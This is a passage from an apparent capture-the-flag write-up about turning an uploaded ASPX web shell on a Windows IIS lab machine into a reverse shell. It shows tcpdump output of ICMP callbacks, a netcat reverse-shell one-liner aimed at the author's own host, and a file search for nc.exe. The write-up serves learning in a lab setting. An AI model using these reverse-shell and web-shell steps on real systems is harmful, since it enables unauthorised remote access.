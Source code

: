 I listened to incoming requests using:

```none
└─$ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes

11:20:05.642836 IP 10.10.10.5 > 10.10.14.10: ICMP echo request, id 1, seq 1, length 40
11:20:05.642910 IP 10.10.14.10 > 10.10.10.5: ICMP echo reply, id 1, seq 1, length 40
11:20:06.859487 IP 10.10.10.5 > 10.10.14.10: ICMP echo request, id 1, seq 2, length 40
11:20:06.859529 IP 10.10.14.10 > 10.10.10.5: ICMP echo reply, id 1, seq 2, length 40
11:20:07.782373 IP 10.10.10.5 > 10.10.14.10: ICMP echo request, id 1, seq 3, length 40
11:20:07.782390 IP 10.10.14.10 > 10.10.10.5: ICMP echo reply, id 1, seq 3, length 40
11:20:08.706988 IP 10.10.10.5 > 10.10.14.10: ICMP echo request, id 1, seq 4, length 40
11:20:08.707029 IP 10.10.14.10 > 10.10.10.5: ICMP echo reply, id 1, seq 4, length 40
```

Success! But getting a reverse shell from here was a lengthy process of trial and error. I thought I could just pop in a netcat reverse shell payload into the uploaded ASPX page and it would work. For example: `nc.exe -e cmd.exe 10.10.14.10 9001`. But it was not that simple and learned lots of things on the way.

I couldn't just run `nc.exe` as the working directory was not the webserver root. The working directory was: `C:\windows\system32\inetsrv`.

![ASPX command working directory](screenshots/80_webshell_dir.png)

But I could traverse directories - if it was in a single command. And I could run programs from different locations in the file system - if I knew where they were. Did some searching using `dir` to try to find the `nc.exe` executable. Never used the command prompt to search for files!

```none
where /R C:\ nc.exe
```
